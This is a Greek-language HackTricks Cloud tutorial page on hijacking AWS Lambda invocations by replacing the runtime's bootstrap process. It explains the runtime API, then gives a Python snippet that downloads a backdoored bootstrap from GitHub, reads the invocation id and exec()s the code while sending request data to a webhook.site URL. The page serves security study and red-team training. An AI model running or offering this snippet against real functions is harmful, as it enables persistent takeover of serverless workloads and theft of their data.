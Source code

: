 # AWS - Κλοπή Αιτημάτων Lambda

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) στο GitHub.

</details>

## Ροή Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι ένα διαδικασία έξω από τον εμπορευματοκιβώτιο που **στέλνει** **κλήσεις** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** αποκαλύπτοντας μερικά ενδιαφέροντα σημεία:
* **`/2018-06-01/runtime/invocation/next`** – λήψη του επόμενου συμβάντος κλήσης
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστροφή της απάντησης του χειριστή για την κλήση
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστροφή σφάλματος εκτέλεσης
3. Το **bootstrap.py** έχει έναν βρόχο που λαμβάνει κλήσεις από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τις χειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στη διαδικασία init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως ένα πρόσθετο, οπότε οποιαδήποτε εκτέλεση κώδικα που πραγματοποιείται από τον κώδικα των χρηστών συμβαίνει πραγματικά σε αυτήν τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα των χρηστών να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που χειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη διαδικασία bootstrap** θα αρχίσει να **επικοινωνεί με τη διαδικασία init** για να χειριστεί τα αιτήματα ενώ το **νόμιμο** bootstrap είναι **παγιδευμένο** εκτελώντας τον κακόβουλο, έτσι δεν θα ζητήσει αιτήματα από τη διαδικασία init.&#x20;

Αυτό είναι ένα εύκολο έργο να επιτευχθεί καθώς ο κώδικας του χρήστη εκτελείται από το νόμιμο **`bootstrap.py`** διαδικασία. Έτσι ο επιτιθέμενος θα μπορούσε:

* **Αποστολή ενός ψεύτικου αποτελέσματος της τρέχουσας κλήσης στη διαδικασία init**, έτσι η init νομίζει ότι η διαδικασία bootstrap περιμένει για περισσότερες κλήσεις.
* Πρέπει να σταλεί ένα αίτημα στο **`/${invoke-id}/response`**&#x20;
* Το invoke-id μπορεί να αποκτηθεί από τη στοίβα της νόμιμης **`bootstrap.py`** διαδικασίας χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) πακέτο της Python (όπως [προτείνεται εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ή απλά ζητώντας το ξανά από το **`/2018-06-01/runtime/invocation/next`** (όπως [προτείνεται εδώ](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Εκτέλεση μιας κακόβουλης **`bootstrap.py`** που θα χειριστεί τις επόμενες κλήσεις
* Για λόγους αόρατης λειτουργίας, είναι δυνατόν να σταλούν οι παράμετροι κλήσης του Lambda σε έναν ελεγχόμενο από τον επιτιθέμενο C2 και στη συνέχεια να χειριστεί τα αιτήματα όπως συνήθως.
* Για αυτήν την επίθεση, είναι αρκετό να αποκτήσετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή το [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), προσθέσετε τον κακόβουλο κώδικα και τον εκτελέσετε από την τρέχουσα κλήση Lambda.

### Βήματα Επίθεσης

1. Βρείτε μια ευπάθεια **RCE**.
2. Δημιουργήστε έναν **κακόβουλο** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Εκτελέστε** τον κακόβουλο bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες τρέχοντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
